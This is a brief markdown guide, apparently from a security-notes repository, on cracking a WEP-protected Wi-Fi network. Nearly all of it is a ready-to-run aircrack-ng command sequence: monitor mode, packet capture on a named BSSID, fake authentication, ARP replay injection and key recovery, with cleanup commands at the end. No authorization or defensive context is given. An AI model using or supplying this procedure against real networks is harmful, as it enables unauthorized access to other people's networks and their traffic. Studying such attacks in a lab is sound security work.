

# Cracking WEP Protocol

## Execution

The wireless network to attack should have mutiple devices connected to it. This will help to speed up the ARP broadcast inject attempts.

``` bash
# Listing your wireless network adapters
iwconfig

# Setting your wireless network adapter to monitor mode
airmon-ng start wlan1

# Monitoring the network
airodump-ng wlan1mon
# Take note of the bssid and the channel
# 90:61:0C:31:01:63

# Capturing packets
airodump-ng --bssid 90:61:0C:31:01:63 -c 11 -w wep_crack wlan1mon

# Associate your network adapter with the monitored network
aireplay-ng -1 0 -a 90:61:0C:31:01:63 wlan1mon

# Inject ARP traffic
# Immediate reconnect the other connected devices
aireplay-ng -3 -b 90:61:0C:31:01:63 -h 28:16:A8:6B:D9:8F wlan1mon
# Look at the data column, collect around 150000 data packets.

# Crack the password!
aircrack-ng wep_crack-01.cap


# Housekeeping
airmon-ng stop wlan1mon
service networking restart
service network-manager restart
```




## References
1. https://www.yeahhub.com/wep-cracking-kali-linux-2018-1-tutorial/
2. https://www.linkedin.com/pulse/how-crack-wep-wifi-passwords-using-kali-linux-sai-bhasker-raju/ 